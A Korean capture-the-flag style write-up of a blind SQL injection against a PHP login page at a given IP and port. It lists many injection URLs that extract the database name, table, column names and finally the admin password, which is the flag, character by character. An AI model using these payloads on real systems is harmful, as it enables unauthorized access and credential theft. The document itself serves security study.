


# Blind SQL Injection



GET 방식으로 id와 password를 받는다.

if (id와 password 둘 다 정보가 들어있다면)   
sql문 $id와 $password자리에 GET방식으로 받은 정보를 넣고   
sql에 입력해보는데,    

id 값이 'admin'이라면    
admin check라는 문구를 출력한다.


--> admin check가 뜬다면    
id : admin 인 상태에서 sql문이 잘 작동된 것.


### 쿼리가 잘 작동하는지 테스트

```http://13.209.81.224:6060/index.php?id=admin' union select database()-- -&&password=admin```



```http://13.209.81.224:6060/index.php?id=admin' AND (ascii('t')>0) -- &password=123```   
admin check

```http://13.209.81.224:6060/index.php?id=admin' AND (ascii(substring('test',1,1))>0) -- &password=123```   
admin check

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),1,1))>0) -- &password=123```   
admin check

---
### db 이름 알아보기   
```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),1,1))=112) -- &password=123```   
p

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),2,1))=114) -- &password=123```   
r

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),3,1))=111) -- &password=123```   
o

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),4,1))=98) -- &password=123```   
b

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),5,1))=49) -- &password=123```   
1

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select database()),6,1))>0) -- &password=123```   
없음

DB name : **prob1**

---
### 테이블 확인


```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),1,1))>0) -- &password=123```   
admin check

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),1,1))=117) -- &password=123```   
u

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),2,1))=115) -- &password=123```   
s

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),3,1))=101) -- &password=123```   
e

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),4,1))=114) -- &password=123```   
r

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),5,1))=115) -- &password=123```   
s

```http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select table_name from information_schema.tables where table_schema = 'prob1' limit 0,1),6,1))>0) -- &password=123```   
없음


table name : **users**


---
### column 구하기


http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name = 'users' limit 0,1),1,1))=110) -- &password=123   
n

http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name = 'users' limit 0,1),2,1))=117) -- &password=123   
u

http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name = 'users' limit 0,1),3,1))=109) -- &password=123   
m

http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name = 'users' limit 0,1),4,1))>0) -- &password=123   
없음


1번 column name : num

2번부터는 파이썬 코드를 돌려서 확인   
2번 column name : id   
3번 column name : pass

---
### 내부 정보

id : admin   
pass : cvfbhfynlrjoi33

flag{cvfbhfynlrjoi33}   
완료.

